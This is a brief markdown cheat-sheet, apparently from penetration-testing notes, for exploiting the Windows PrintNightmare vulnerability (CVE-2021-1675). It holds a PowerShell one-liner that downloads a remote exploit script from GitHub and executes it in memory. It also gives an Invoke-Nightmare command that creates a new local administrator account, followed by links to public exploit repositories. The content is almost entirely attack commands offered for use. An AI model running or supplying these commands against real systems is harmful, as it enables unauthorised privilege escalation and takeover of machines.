### Download exploit
```
iex((New-Object Net.WebClient).downloadString('https://raw.githubusercontent.com/calebstewart/CVE-2021-1675/main/CVE-2021-1675.ps1'))
```

### Add new user (localAdmin)
```
Invoke-Nightmare -NewUser <user> -NewPassword "<password>" -Drivername "<name>"
```

### References
* https://github.com/calebstewart/CVE-2021-1675  
* https://raw.githubusercontent.com/S3cur3Th1sSh1t/PowerSharpPack/master/PowerSharpBinaries/Invoke-SharpPrintNightmare.ps1  
* https://github.com/cube0x0/CVE-2021-1675  

